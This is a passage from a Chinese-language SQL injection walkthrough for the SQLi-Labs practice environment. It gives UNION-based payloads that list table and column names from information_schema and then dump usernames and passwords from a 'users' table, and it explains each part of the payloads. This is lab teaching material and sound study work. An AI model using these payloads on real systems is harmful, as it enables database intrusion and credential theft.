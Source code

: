 SELECT * FROM users WHERE id ='-1' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.TABLES WHERE TABLE_schema='security' -- LIMIT 0,1;
```

**核心部分：`UNION SELECT 1, GROUP_CONCAT(table_name), 3 ...`**

- `UNION`：合并两个查询的结果，要求前后查询的字段数量一致（这里假设 `users` 表有 3 个字段，因此用 `1`、`GROUP_CONCAT(...)`、`3` 三个值匹配）。

- 核心查询逻辑：从系统表

  ```
  information_schema.TABLES
  ```

  中获取指定数据库的所有表名：

  - `information_schema.TABLES`：MySQL 系统表，存储了所有数据库中表的元信息（包括表名、所属数据库等）。
  - `TABLE_schema='security'`：条件筛选，只查询属于 `security` 数据库的表（`security` 是 SQLi-Lib 靶场中常见的数据库名）。
  - `GROUP_CONCAT(table_name)`：将查询到的所有表名拼接成一个字符串（例如 `emails,referers,uagents,users`），方便在页面中一次性显示（避免多行结果被截断）。

![image-20250903105112935](images/image-20250903105112935.png)

![image-20250902152426103](images/image-20250902152426103.png)

------

### ⑦ 获取字段名

表名是 `users`：

```
?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users'--+

SELECT * FROM users WHERE id ='-1' UNION SELECT 1,GROUP_CONCAT(COLUMN_name),3 FROM information_schema.`COLUMNS`WHERE TABLE_name='users' -- LIMIT 0,1;
```

![image-20250902152516142](images/image-20250902152516142.png)

![image-20250903105600342](images/image-20250903105600342.png)

------

![image-20250903105519543](images/image-20250903105519543.png)

### ⑧ 获取数据

比如字段有 `id,username,password`：

```
?id=-1' UNION SELECT 1,group_concat(username),group_concat(password) FROM users--+
